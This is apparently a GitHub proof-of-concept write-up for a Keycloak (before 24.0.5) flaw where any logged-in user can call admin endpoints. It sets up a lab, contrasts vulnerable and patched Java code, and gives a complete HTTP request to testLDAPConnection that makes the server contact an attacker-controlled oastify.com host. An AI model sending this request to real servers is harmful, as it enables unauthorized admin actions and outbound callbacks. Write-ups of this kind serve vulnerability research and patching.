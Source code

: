 Keycloak < 24.0.5 is vulnerable to Broken Access Control  vulnerability, where the attacker can use any authenticated user to perform some api action such as :

Test LDAP connections via the **testLDAPConnection** endpoint.
Retrieve unmanaged attributes of any user via the **getUnmanagedAttributes** endpoint.
Access client registration policy providers via the **getProviders** endpoint.


I only found testLDAPConnection interesting where an attacker can interact with LDAP to an external host .

steps of reproduction
===================

first download the vulnerable version of KeyCloak 24.0.4 from here https://www.keycloak.org/archive/downloads-24.0.4.html

then extract the Zip file and run the command `bin/kc.sh start-dev`

![image](https://github.com/user-attachments/assets/ba375259-32de-45ce-b40b-c083fc7e5236)

Now You will run it on localhost:8080, Create a new admin account then login to this admin account 

now create a New Realm for regular users, then create a user with user privilege in this realm 


![image](https://github.com/user-attachments/assets/9c46cc1b-8f09-4695-a488-a392f95caae1)


Based on the commit that fix the vulnerability "Missing auth checks in some admin endpoints" https://github.com/keycloak/keycloak/commit/d9f0c84b797525eac55914db5f81a8133ef5f9b1

we find that there are 3 files  that have been modified :

TestLdapConnectionResource.java
UserResource.java
ClientRegistrationPolicyResource.java

Analyzing the Code Change in TestLdapConnectionResource.java:

**(Vulnerable Code):**

```java
public Response testLDAPConnection(TestLdapConnectionRepresentation config) {
    try {
        LDAPServerCapabilitiesManager.testLDAP(config, session, realm);
        return Response.noContent().build();
    }
    // Exception handling...
}
```

 There was **no permission check**. Any authenticated user could call `testLDAPConnection` and perform LDAP tests, which is an administrative action.

**(Patched Code):**

```java
public Response testLDAPConnection(TestLdapConnectionRepresentation config) {
    auth.realm().requireManageRealm(); // Added permission check
    try {
        LDAPServerCapabilitiesManager.testLDAP(config, session, realm);
        return Response.noContent().build();
    }
    // Exception handling...
}
```

![image](https://github.com/user-attachments/assets/674babf0-6479-4cfa-9dbe-af5a398b81bc)



The line `auth.realm().requireManageRealm();` was added to check if the user has admin permissions (`manage_realm` role) in the realm.

This means any user with any Realm can send a requset to `/admin/realms/users/testLDAPConnection`


Now in a new browser Open the link http://localhost:8080/realms/users/protocol/openid-connect/auth?client_id=account-console

Log in with the user that you created, then grep the **authorization: Bearer <>**

send HTTP  requset to the vulnerable endpoint :

```http
POST /admin/realms/users/testLDAPConnection HTTP/1.1
Host: dzdz.me:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
authorization: Bearer <xxxx>
content-type: application/json
Content-Length: 265
Origin: http://dzdz.me:8080
Connection: close


{

    "action": "testConnection",
    "connectionUrl": "ldap://xxxxxxxxxxxxxxxxxxxxxxx.oastify.com",
    "bindDn": "cn=admin,dc=example,dc=com",
    "bindCredential": "password",
    "useTruststoreSpi": "ldapsOnly",
    "connectionTimeout": "5000"
}
```

in the parameter `connectionUrl` put Your external host and send the Requset,

then You will receive the DNS interaction 


![image](https://github.com/user-attachments/assets/36a8ffe1-e0b3-4c9b-a063-37dc34bdca51)

you can apply the same thing with getUnmanagedAttributes and getProviders.


reference:
https://github.com/keycloak/keycloak/commit/d9f0c84b797525eac55914db5f81a8133ef5f9b1
https://github.com/advisories/GHSA-2cww-fgmg-4jqc


